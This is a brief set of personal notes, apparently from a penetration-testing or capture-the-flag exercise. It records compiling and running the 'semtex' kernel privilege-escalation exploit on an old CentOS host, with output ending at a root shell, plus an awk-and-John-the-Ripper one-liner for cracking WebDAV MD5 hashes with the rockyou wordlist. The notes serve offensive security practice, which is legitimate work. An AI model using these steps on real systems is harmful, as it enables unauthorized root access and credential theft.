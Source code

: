 # notes

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex  
/usr/bin/gcc -O2 semtex.c -o semtex  
bash-4.1$ chmod +x semtex  
chmod +x semtex  
bash-4.1$ ./semtex  
./semtex  
2.6.37-3.x x86_64  
sd@fucksheep.org 2010  
-sh-4.1#  

## awk
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

